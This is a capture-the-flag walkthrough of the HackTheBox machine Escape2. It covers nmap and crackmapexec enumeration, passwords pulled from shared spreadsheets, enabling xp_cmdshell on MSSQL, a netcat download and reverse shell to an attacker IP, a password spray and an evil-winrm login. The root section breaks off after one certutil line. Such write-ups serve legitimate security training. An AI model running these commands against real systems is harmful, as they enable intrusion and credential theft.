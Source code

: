 ```yaml
---
title: Escape2 - A HackTheBox machine
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - walkthrough
---
```

# Escape2 - A HackTheBox machine

## user.txt


```
  Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
```


As is common in real life Windows pentests, you will start this box with credentials for the following account: rose / KxEPkKe6R8su


We enumerate the services in the target:

```
sudo nmap -sV -sC ~ip -Pn --top-ports 10000
```

Output:

```
ot shown: 8362 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-31 13:06:39Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-01-31T13:07:58+00:00; +4m05s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-01-31T13:07:58+00:00; +4m05s from scanner time.
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.118.128:1433: 
|     Target_Name: SEQUEL
|     NetBIOS_Domain_Name: SEQUEL
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: DC01.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-31T13:05:43
|_Not valid after:  2055-01-31T13:05:43
| ms-sql-info: 
|   10.129.118.128:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-01-31T13:07:58+00:00; +4m05s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-01-31T13:07:58+00:00; +4m05s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-01-31T13:07:58+00:00; +4m05s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49725/tcp open  msrpc         Microsoft Windows RPC
49745/tcp open  msrpc         Microsoft Windows RPC
60956/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: 5m48s, deviation: 0s, median: 5m48s
| smb2-time: 
|   date: 2025-02-09T17:52:05
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    

```


We enumerate users and password policy with:

```
crackmapexec smb $ip -u rose -p KxEPkKe6R8su --users
```

We save the output as users.txt: 

```
Administrator
Guest
krbtgt
ryan
oscar
sql_svc
rose
ca_svc
```

We enumerate users and password policy with:

```
crackmapexec smb $ip -u rose -p KxEPkKe6R8su --pass-pol
```

Output: 

```
SMB         10.129.48.159  445    DC01             Minimum password age: 1 day 4 minutes 
SMB         10.129.48.159 445    DC01             Reset Account Lockout Counter: 10 minutes 
SMB        10.129.48.159  445    DC01             Locked Account Duration: 10 minutes 
SMB         10.129.48.159  445    DC01             Account Lockout Threshold: None
SMB         10.129.48.159  445    DC01             Forced Log off Time: Not Set

```

We enumerate shares in 

```
crackmapexec smb 10.129.48.159 -u rose -p KxEPkKe6R8su --shares
```

And we connect to the existing shares. After browsing around we will download two files:

```
smbclient  \\\\10.129.48.159\\'Accounting Department' -U rose
# Enter password when prompted: KxEPkKe6R8su

dir
get accounting_2024.xlsx
get accounts.xlsx
quit
```

From these files we will extract the following users and passwords (we unzip them and read the xml files inside):

```
angela:0fwz7Q4mSpurIt99
oscar:86LxLBMgEWaKUnBG
kevin:Md9Wlq1E5bZnVDVo
sa:MSSQLP@ssw0rd!
```

Now we can connet to the msSQL server:

```
python3 mssqlclient.py -p 1433 sa@10.129.42.172 
# When prompted, enter credentials: MSSQLP@ssw0rd!
```

In the connection to the mssql server we will be running as  admin:

```
# To allow advanced options to be changed.   
EXECUTE sp_configure 'show advanced options', 1
RECONFIGURE

# To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE

# **sp_configure** displays or changes global configuration settings for the current settings. This is how you may take advantage of it:
EXECUTE sp_configure 'xp_cmdshell', 1
RECONFIGURE

# Now we can upload a nc file to obtain a reverse shell:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.113/nc64.exe -outfile nc64.exe"

# Open a listener
nc -lnvp 1234

# And trigger the listener
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.113 1234";
```

Located at C:\ we note the following file c:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI, where we can retrieve the following credentials:

```
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
```

Now we can try to do a password spray attack:

```
crackmapexec smb 10.129.42.172 -u ~/borrar/users.txt -p WqSZAF6CysDQbGb3  --continue-on-success | grep +
```

And we obtain: 

```
10.129.42.172   445    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3 
10.129.42.172   445    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3
```

Meaning that we can try to connect with evil-winrm with ryan:WqSZAF6CysDQbGb3: 

```
evil-winrm -i 10.129.42.172 -u ryan -p WqSZAF6CysDQbGb3 
```

As ryan, we can go to c:\Desktop and print user.txt.

Results: 21033cea9bb3884f391ee21423396f70

## root.txt


```

certutil.exe -urlcache -split -f "https://download.sysinternals.com/files/PSTools.zip" pstools.zip
```
